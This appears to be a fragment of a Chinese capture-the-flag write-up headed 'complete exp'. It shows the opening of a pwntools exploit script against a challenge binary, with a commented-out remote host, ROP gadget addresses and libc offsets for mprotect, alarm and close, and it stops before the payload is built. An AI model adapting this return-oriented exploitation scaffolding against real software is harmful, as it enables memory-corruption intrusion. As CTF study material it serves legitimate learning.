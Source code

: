 ![](/upload/img/2706180-20220426103703621-1232925873.png)



# 完整exp：

```python
#coding:utf-8
from pwn import *
context(arch='i386',os='linux',log_level='debug')
p=process('./b')
#p=remote("47.97.127.1",26417)
#gdb.attach(p)
e=ELF('./b')

ret_addr=0x4004e6
magic_gadget_addr=0x400618
pop_rdi_addr=0x400903
pop_rsi_r15_addr=0x400901
rdx_offset=0x1b96
mprotect_offset=0x11b7e0
alarm_offset=0xe44f0
close_offset=0x110870
```